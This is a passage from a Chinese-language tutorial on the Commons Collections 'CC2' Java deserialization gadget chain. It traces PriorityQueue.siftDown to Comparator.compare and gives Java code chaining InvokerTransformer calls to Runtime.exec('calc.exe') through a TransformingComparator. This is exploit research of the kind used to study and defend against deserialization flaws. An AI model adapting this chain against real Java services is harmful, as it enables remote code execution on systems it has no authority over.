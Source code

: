 ![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231207150231.png)

跟进siftDown：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231207150615.png)

跟进siftDownUsingComparator

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231207151007.png)

发现调用任意Comparator类的compare方法。

接下来就有三种利用方式，CC1和CC3的TemlpateImpl。

## 利用CC1作为后半部分

先把compare最后要执行的Transform类准备好：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
};
Transformer transformerChain = new ChainedTransformer(transformers);
```

TransformingComparator和PriorityQueue都实现了Serializable接口，所以直接实例化就行：

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.util.Comparator;
import java.util.PriorityQueue;

public class CC2_LazyMap_8u65 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Comparator transformingcomparator = new TransformingComparator(transformerChain, new Comparator() {
            @Override
            public int compare(Object o1, Object o2) {
                return 0;
            }
        });
        PriorityQueue priorityQueue = new PriorityQueue(2,transformingcomparator);
    }
}
```
